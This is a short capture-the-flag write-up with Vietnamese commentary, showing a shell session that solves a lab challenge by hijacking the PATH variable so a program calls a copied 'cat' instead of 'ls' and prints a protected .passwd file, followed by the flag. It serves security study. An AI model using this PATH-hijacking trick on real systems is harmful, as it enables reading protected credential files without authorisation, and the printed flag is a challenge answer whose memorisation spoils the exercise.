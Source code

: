 # Source

[Source](./ch11.c)

# Solve

```bash
app-script-ch11@challenge02:~$ ls
ch11  ch11.c  Makefile
app-script-ch11@challenge02:~$ clear
app-script-ch11@challenge02:~$ ./ch11
/challenge/app-script/ch11/.passwd
app-script-ch11@challenge02:~$ echo "$path"

app-script-ch11@challenge02:~$ echo "$PATH"
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/
app-script-ch11@challenge02:~$ which cat
/bin/cat
app-script-ch11@challenge02:~$ mkdir /tmp/cat-fake
app-script-ch11@challenge02:~$ cp /bin/cat /tmp/cat-fake/ls
app-script-ch11@challenge02:~$ ls /tmp/cat-fake
ls
app-script-ch11@challenge02:~$ export PATH="/tmp/cat-fake/:$PATH"
app-script-ch11@challenge02:~$ ./ch11
!oPe96a/.s8d5
app-script-ch11@challenge02:~$
```
- Cách khai thác ở đây là do trong mã nguồn sử dụng lệnh `ls`. 
- Để thực thi được lệnh `ls` thì chương trình phải tìm đường dẫn của lệnh này ở trong biến môi trường có tên $PATH.
- Xem nội dung của biến này bằng lệnh: `echo $PATH`
- Tiếp theo, sao chép lại lệnh `cat`, đổi tên thành `ls` và đưa vào một nơi khác. Export đường dẫn của lệnh `ls` này vào biến `$PATH` bằng câu lệnh: `export PATH="<đường dẫ>:$PATH"`
- Chạy lại chương trình thì thay thì thực thi lệnh `ls` thì chương trình sẽ dùng lệnh `cat` và in ra nội dung của file .passwd.

### 🚩Flag: `!oPe96a/.s8d5`
